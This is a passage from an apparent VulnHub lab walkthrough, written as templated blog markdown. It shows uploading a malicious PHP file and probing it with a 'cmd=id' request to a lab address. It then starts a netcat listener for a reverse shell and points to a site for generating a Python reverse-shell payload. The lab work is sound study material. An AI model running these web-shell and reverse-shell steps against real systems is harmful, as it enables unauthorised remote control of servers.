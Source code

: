 <br />
Forward the request on to upload our malicious php file.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/forward.png" title="Forward Request" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Watch the traffic that comes through the interceptor.  Note the location of our php file.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/traffic.png" title="Watch Traffic" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Test the path from the traffic with id for the cmd parameter to test command execution.

{% raw %}
```sh
http://10.0.0.15:8000/storage/originals/7d/17/image.php?cmd=id
```
{% endraw %}
<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/id.png" title="Command Execution" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Start a listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/vulnhub/photograph]
└─$ sudo nc -nlvp 443                         
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Use Revshells to generate a Python3 payload.

{% raw %}
```sh
https://www.revshells.com/
```
{% endraw %}
<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/revshells.png" title="Revshells" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
